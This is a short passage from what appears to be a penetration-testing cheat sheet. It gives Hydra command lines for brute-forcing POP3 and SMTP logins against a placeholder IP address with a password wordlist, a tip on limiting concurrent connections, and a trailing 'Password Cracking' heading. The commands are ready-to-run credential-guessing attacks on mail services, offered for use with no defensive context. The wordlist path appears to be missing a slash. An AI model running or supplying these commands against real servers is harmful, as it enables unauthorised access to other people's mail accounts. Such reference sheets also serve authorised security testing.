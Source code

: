 
### Hydra POP3 Brute Force


<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Command</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>
	<p><code>hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f <br>192.168.X.XXX pop3 -V</code></p>
      </td>
      <td>
            <p>Hydra POP3 brute force</p>
      </td>
    </tr>
  </tbody>
</table>
</div>

### Hydra SMTP Brute Force

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Command</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>
	<p><code>hydra -P /usr/share/wordlistsnmap.lst 192.168.X.XXX smtp -V</code></p>
      </td>
      <td>
            <p>Hydra SMTP brute force</p>
      </td>
    </tr>
  </tbody>
</table>
</div>

Use <code>-t</code> to limit concurrent connections, example: <code>-t 15</code>  


## Password Cracking
